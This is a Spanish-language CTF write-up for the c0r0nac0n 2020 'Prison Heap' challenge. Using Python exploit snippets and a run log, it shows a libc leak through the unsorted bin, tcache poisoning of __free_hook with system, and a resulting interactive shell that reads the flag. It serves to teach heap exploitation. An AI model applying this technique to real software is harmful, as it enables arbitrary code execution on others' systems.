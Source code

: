 ```yaml
---
layout: post
title: c0r0nac0n 2020 - Exploiting - Prison Heap (heap, libc 2.27)
tags: heap, libc 2.27
---
```


### Resumen

Tenemos un reto de heap clásico, con 3 opciones en el menú: escribir, leer y liberar.

El binario tiene 2 vulnerabilidades:
* permite liberar el mismo registro varias veces
* podemos leer un registro ya liberado liberado

![checksec]({{site.base_url}}/files/c0r0nac0n/checksec.png)

Vemos que están habilitadas todas las medidas de seguridad, y que el binario usa PIE. Esto significa que, de entrada, no tenemos ninguna dirección de memoria conocida a la que agarrarnos.

### Leak libc

El tcache de libc 2.26 y superiores, mantiene una lista de chunks liberados por tamaño y thread de ejecución. Almacena hasta un total de 7 chunks. Una vez lleno, funciona igual que en versiones anteriores, y el chunk liberado, en función de su tamaño, va al bin que le corresponda (fastbin, smallbin, unsorted bin).

Los chunks en el tcache se almacenan en una lista doblemente enlazada (punteros `fd` y `bk`). Usando la vulnerabilidad use-after-free podríamos liberar uno y obtener su contenido (veríamos el puntero `fd`), pero serían direcciones del heap, que no nos sirven.

En cambio, si liberamos 8 veces un chunk del tamaño adecuado, 7 llenarían el tcache y el octavo entraría al unsorted bin, y su parámetro `fd` pasaría a contener un puntero al `main_arena`. Esta dirección está entro de la libc, y su distancia con la dirección base puede calcularse fácilmente.

![unsorted chunk]({{site.base_url}}/files/c0r0nac0n/unsorted.png)

```python
write_prison(0xf8) #0
write_prison(0x20) #1

for i in range(7):
    free_prison(0)

free_prison(0)

leak = read_prison(0)[:6]+"\x00\x00"
libc_arena = unpack(leak)
libc_address = libc_arena - 0x3ebca0
```

### Shell

Una vez tenemos la dirección base de libc, nuestro objetivo será ejecutar `system("/bin/sh")`.

Una buena opción, cuando es posible, es sobrescribir el puntero de `__free_hook`. Esta funcion será llamada cada vez que se libere un bloque con `free()`, y se le pasará como parámetro el chunk que se está liberando. 

Sobrescribiremos ese puntero con la dirección de `system`, de forma que cuando liberemos un chunk que contenga `"/bin/sh\x00"`, nos proporcione el shell.

```python
target_chunk = libc.sym['__free_hook']

# Creamos un chunk y lo liberamos dos veces
write_prison(0x68) #2
free_prison(2)
free_prison(2)

# Sobrescribimos el puntero fd del chunk una primera vez.
write_prison(0x68, pack(target_chunk)) #3

# Ahora mismo la lista del tcache apunta al mismo chunk, pero con su fd modificado en el paso anterior
# Lo solicitaremos de nuevo, pero esta vez sin alterar su contenido:
write_prison(0x68, "") #4

# En estos momentos la lista de bloques libres del tcache apunta a nuestra dirección objetivo
# Reservaremos de nuevo un chunk del mismo tamaño, y escribiremos la dirección de system
write_prison(0x68, pack(libc.sym['system'])) #5
```

Ya solo falta crear un chunk con el comando que queramos ejecutar y liberarlo.

```python
write_prison(0x30, "/bin/sh\x00") #6
free_prison(6)

io.interactive()
```

### Ejecución

```bash
$ python exploit_prison1.py
[*] '/home/CTF/C0r0naC0n/Exploit/Heap1/prison_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 161.35.30.233 on port 1337: Done
[*] u'/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Libc arena:     7fb9a0a38ca0
[*] Libc base:      7fb9a064d000
[*] Target_chunk:     7fb9a0a3a8e8
[*] Switching to interactive mode

$ cat home/prison/prison_heap/flag.txt
flag{h34p_Pr1s0n_1s_34sy_To_byp4ss}
```

En breve, el writeup de Prison Heap 2.

## Descargas


* [exploit_prison1.py]({{site.base_url}}/files/c0r0nac0n/exploit_prison1.py)
* [prison_heap]({{site.base_url}}/files/c0r0nac0n/prison_heap)
* [libc-2.27.so]({{site.base_url}}/files/c0r0nac0n/libc-2.27.so)
